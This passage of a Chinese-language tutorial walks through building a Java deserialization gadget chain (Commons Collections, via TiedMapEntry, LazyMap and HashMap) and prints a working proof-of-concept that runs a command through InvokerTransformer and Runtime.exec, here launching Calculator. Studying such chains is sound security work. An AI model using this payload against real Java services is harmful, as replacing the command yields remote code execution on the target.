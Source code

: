 ![image-20231126143605732](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20231126143605732.png)



然后往上去找谁调用了 TiedMapEntry 中的 getValue() 方法。

> 因为 getValue() 这一个方法是相当相当常见的，所以我们一般会优先找同一类下是否存在调用情况。



寻找到同名函数下的 hashCode() 方法调用了 getValue() 方法。

![image-20231126143707383](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20231126143707383.png)

> 如果我们在实战里面，在链子中找到了 hashCode() 方法，说明我们的构造已经可以**“半场开香槟”**了，





**3. 与入口类结合的整条链子**

前文我们说到链子已经构造到 hashCode() 这里了，这一条 hashCode() 的链子该如何构造呢？

**我们去找谁调用了** **hashCode()** **方法**，这里我就直接把答案贴出来吧，因为**在 Java 反序列化当中，找到 hashCode() 之后的链子用的基本都是这一条。**

```java
xxx.readObject()
	HashMap.put() --自动调用-->   HashMap.hash()
		后续利用链.hashCode()
```



更巧的是，这里的 HashMap 类本身就是一个非常完美的**入口类**。


如果要写一段从 HashMap.put 开始，到 InvokerTransformer 结尾的弹计算器的 EXP，应当是这样的。

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
HashMap<Object, Object> hashMap = new HashMap<>();
Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);

//
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "keykey");
//        tiedMapEntry.getKey();
//HashMap<Object, Object> expMap = new HashMap<>() 这里打断点，会发现直接 24 行就弹计算器了，不要着急，这里是一个 IDEA 的小坑，后续会讲。
HashMap<Object, Object> expMap = new HashMap<>();
expMap.put(tiedMapEntry,"valval");


```
